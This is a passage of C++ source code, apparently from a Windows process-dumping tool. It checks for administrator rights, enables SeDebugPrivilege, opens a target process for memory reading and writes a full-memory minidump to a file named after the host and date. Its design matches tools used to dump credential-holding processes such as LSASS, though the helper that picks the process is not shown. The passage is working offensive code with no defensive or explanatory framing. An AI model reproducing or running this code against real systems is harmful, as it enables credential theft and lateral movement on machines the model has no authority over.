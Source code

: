 ```cpp
	filenamestream << extension;
	filenamestream >> filename;
	return filename;
}


int main(int argc, char** argv) {
	// Check elevated process
	if (!IsElevatedProcess()) {
		wcout << "[-] Error: Execute with administrative privileges." << endl;
		return 1;
	}

	// Get process PID
	DWORD processPID = getProcessPid();
	wcout << "[+] Process PID: " << processPID << endl;

	string filename;
	if (argc >= 2) {
		// Use custom name from first input argument to create name for dump file...
		filename = argv[1];
	}
	else {
		// ... or generate file name with hostname and date
		string hostname = getHostname();
		filename = getFileName(hostname);
	}
	std::wstring stemp = std::wstring(filename.begin(), filename.end());
	LPCWSTR pointer_filename = stemp.c_str();

	// Create output file
	HANDLE outFile = CreateFile(pointer_filename, GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

	// Enable SeDebugPrivilege privilege
	BOOL privAdded = SetPrivilege();
	if (!privAdded) {
		wcout << "[-] Error: Necessary privilege could not be added." << endl;
		return 1;
	}

	// Create handle to the process
	DWORD processRights = PROCESS_VM_READ | PROCESS_QUERY_INFORMATION;
	HANDLE processHandle = OpenProcess(processRights, 0, processPID);

	// Dump process
	if (processHandle && processHandle != INVALID_HANDLE_VALUE) {
		wcout << "[+] Handle to process created correctly." << endl;
		BOOL isDumped = MiniDumpWriteDump(processHandle, processPID, outFile, (MINIDUMP_TYPE)0x00000002, NULL, NULL, NULL);
		if (isDumped) {
			cout << "[+] Successfully dumped process with pid " << processPID << " to file " << filename << endl;
		}
		else {
			cout << "[-] Error: Process not dumped." << endl;
			return 1;
		}
	}
	else {
		wcout << "[-] Error: Handle to process is NULL." << endl;
		return 1;
	}
```